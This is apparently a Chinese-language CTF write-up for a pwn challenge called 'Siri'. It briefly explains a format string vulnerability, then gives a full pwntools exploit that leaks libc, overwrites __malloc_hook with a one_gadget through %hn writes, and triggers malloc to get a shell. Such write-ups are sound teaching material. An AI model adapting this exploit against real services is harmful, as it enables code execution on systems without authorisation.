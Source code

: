 

## Siri  
这个题搞了好多天，大哥们都说简单，我觉得挺难顶，反正总算调出来了，   
挺明显的格式化字符串漏洞，能重复利用，先验证一些字符串是否相等，然后再fmt，因为多了点字符串，所以这里涉及到一些字节的对齐问题，要慢慢调调看看思路就是：  
利用格式化字符串任意写，改malloc_hook为one_gadget，然后printf("%1000000c")，这个操作会触发malloc函数  

### exp

```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './Siri' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def message(content):
    p.recvuntil(">>> ")
    p.sendline("Hey Siri!")
    p.recvuntil(">>> ")
    p.sendline("Remind me to " + content)

def exp():
    message("%83$p")
    p.recvuntil("0x")
    libc_base = int(p.recv(12),16) - 0x21b97
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    log.success("libc_base==>" + hex(libc_base))
    one = [0x4f365,0x4f3c2,0x10a45c]
    one_gadget = libc_base+one[1]
    ogg = []
    ogg.append(one_gadget&0xffff)
    ogg.append((one_gadget>>16)&0xffff)
    ogg.append((one_gadget>>32)&0xffff)
    log.success("one_gadget==>" + hex(one_gadget))
    for i in range(3):
        print hex(ogg[i])
    pay1='%'+str((ogg[0]-len(">>> OK, I'll remind you to ")+0x10000)%0x10000)+'c%'+str(59)+'$hn'
    pay2='%'+str((ogg[1]-ogg[0]+0x10000)%0x10000)+'c%'+str(60)+'$hn'
    pay3='%'+str((ogg[2]-ogg[1]+0x10000)%0x10000)+'c%'+str(61)+'$hn'
    pay=pay1+pay2+pay3
    pay=pay.ljust(0x68-len(">>> OK, I'll remind you to ")-2,'a')
    pay += p64(malloc_hook)
    pay += p64(malloc_hook+2)
    pay += p64(malloc_hook+4)
    print str(pay1)
    print str(pay2)
    print str(pay3)
    #gdb.attach(p,'b * $rebase(0x012B1)')
    message(pay)

    message("%1000000c")
    p.interactive()
exp()
```